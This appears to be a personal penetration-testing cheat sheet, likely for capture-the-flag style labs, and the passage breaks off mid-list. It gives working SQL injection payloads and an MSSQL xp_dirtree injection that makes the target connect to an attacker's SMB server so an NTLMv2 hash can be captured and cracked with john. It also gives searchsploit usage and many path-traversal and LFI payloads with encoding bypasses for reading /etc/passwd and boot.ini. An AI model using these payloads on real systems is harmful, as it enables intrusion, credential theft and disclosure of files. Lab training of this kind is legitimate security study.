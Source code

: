 #### SQLi
- `'`  on every text box. if leads to error, try:
```
' or 1=1 limit 1;-- -
```
- if that succeeds, SQL injection!

If SQLi on windows target, start `smbserver.py test . -smb2support` and try appending this to URL where `'` goes:
```
;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--
```
- replace `10.10.14.5` with kali IP
- ex: `https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=8;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--`
- catch ntlmv2 hash and crack with john (copy whole thing including username and trailing 00000s)

---
#### Search for Services
Google the http-title
`searchsploit service version`
`searchsploit /path/to/exploit -m`
- copy to current directory
`searchsploit /path/to/exploit -x`
- view exploit

---
#### Path Traversal File Inclusion LFI RFI
?param=
```
../../../../../etc/passwd
```
- linux
```
..\..\..\..\..\Windows\boot.ini
```
- windows
```
../../../../../../Windows/boot.ini
```
- forward slash
```
..\\..\\..\\..\\..\\Windows\\boot.ini
```
- double slash
```
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cWindows%5cboot.ini
```
- single encoding
```
%252e%252e%255c%252e%252e%255c%252e%252e%255cWindows%255cboot.ini
```
- double encoding
```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/Windows/boot.ini
```
- mixed slash with single encoding
- also sometimes forward slashes work `../../../../../../Windows/boot.ini`
- nested traversal sequences, such as `....//` or `....\/`
- URL encoding `../` = `%2e%2e%2f` and double URL encoding = `%252e%252e%252f` non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`
- may require the user-supplied filename to start with the expected base folder, such as `filename=/var/www/images/../../../etc/passwd`
- may require the user-supplied filename to end with an expected file extension, such as .png, for ex: `filename=../../../etc/passwd%00.png`
- null byte injection `../../../../../../../var/www/html/db.php%00`
- fake extensions like: